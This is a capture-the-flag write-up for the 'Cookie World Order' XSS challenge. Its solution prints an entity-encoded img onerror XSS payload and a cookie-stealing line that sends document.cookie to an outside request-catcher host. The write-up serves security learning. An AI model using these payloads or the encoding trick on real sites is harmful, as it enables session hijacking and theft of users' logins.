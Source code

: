 <span class="glitch__line glitch__line--first"></span>
<span class="glitch__line glitch__line--second"></span>
<h1 class="glitch glitch__color glitch__color--red">Cookie World Order</h1>
<h1 class="glitch glitch__color glitch__color--green">Cookie World Order</h1>
<h1 class="glitch glitch__color glitch__color--blue">Cookie World Order</h1>
<h1 class="glitch glitch__color">Cookie World Order</h1>
<br />
<br />

## Task
Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits. Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!

[https://cwo-xss.web.ctfcompetition.com/](https://cwo-xss.web.ctfcompetition.com/)

## Solution
```<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">``` expands to ```<img src=x onerror="javascript:alert('XSS')">```
setting the payload to ```javascript:document.location='https://foobar123.requestcatcher.com?cookie='+document.cookie;``` gives us
> ```<img src=x onerror="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#102;&#111;&#111;&#98;&#97;&#114;&#49;&#50;&#51;&#46;&#114;&#101;&#113;&#117;&#101;&#115;&#116;&#99;&#97;&#116;&#99;&#104;&#101;&#114;&#46;&#99;&#111;&#109;&#63;&#99;&#111;&#111;&#107;&#105;&#101;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#59;">```

when submitted the [flag](../flags.html#51_cookieworldorder) is sent to ```https://foobar123.requestcatcher.com```